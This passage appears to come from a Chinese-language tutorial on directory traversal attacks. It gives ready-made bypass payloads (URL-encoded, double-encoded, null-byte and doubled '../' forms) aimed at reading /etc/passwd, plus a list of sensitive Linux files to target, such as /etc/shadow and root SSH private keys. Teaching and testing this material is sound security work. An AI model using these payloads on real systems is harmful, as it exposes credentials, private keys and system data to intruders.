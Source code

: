#### 2、url编码绕过

|     |     |
| --- | --- |
| 使用 %2e 代替 . | ?name=%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd |
| 使用 %2f 代替 / | ?name=..%2f..%2f..%2f..%2f..%2fetc%2fpasswd |
| 使用 %2e%2e%2f 代替 ../ | ?name=%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd |

常用绕过一般是后两种，点一般不会被过滤，因为文件名中间也会存在一个 **.**

#### 3、二次编码绕过

|     |     |
| --- | --- |
| 使用 %25%32%65 代替 . | ?name=%252e%252e/%252e%252e/%252e%252e/%252e%252e/etc/passwd |
| 使用 %25%32%66 代替 / | ?name=..%252f..%252f..%252f..%252f..%252fetc%252fpasswd |
| 使用 %25%32%65%25%32%65%25%32%66<br><br>代替 ../ | ?name=%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252fetc%252fpasswd |

#### 4、将 / 替换为 \\ 绕过

#### 5、%00绕过

?name=.%00./.%00./.%00./.%00./etc/passwd

#### 6、双写绕过

有些代码会进行过滤，会把 ../ 置空，那么利用 ....// 代替 ../ ，利用 ..// 代替 /

这种情况很少见，视情况而定

## 漏洞利用

#### Linux 系统下利用

```php
/root/.ssh/authorized_keys
/root/.ssh/id_rsa
/root/.ssh/id_ras.keystore
/root/.ssh/known_hosts
/etc/passwd
/etc/shadow
/etc/issue 系统版本
/etc/fstab
/etc/host.conf
/var/log/xferlog  FTP会话，记录拷贝了什么文件
/var/log/cron 计划任务日志
/etc/(cron.d/|crontab) //这两个也是定时任务文件
/var/log/secure 用户登录安全日志
/etc/rc.local 读apache的路径
/etc/motd
/etc/sysctl.conf
/var/log/syslog 记录登陆错误时的密码等信息
/etc/environment 环境变量配置文件 可能泄露大量目录信息
/etc/inputrc 输入设备配置文件
/etc/default/useradd 添加用户的默认信息的文件
/etc/login.defs 是用户密码信息的默认属性
/etc/skel 用户信息的骨架
/sbin/nologin 不能登陆的用户
/var/log/message 系统的日志文件
/etc/httpd/conf/httpd.conf 配置http服务的配置文件
/etc/mtab     包含当前安装的文件系统列表   有时可以读取到当前网站的路径
/etc/ld.so.conf
```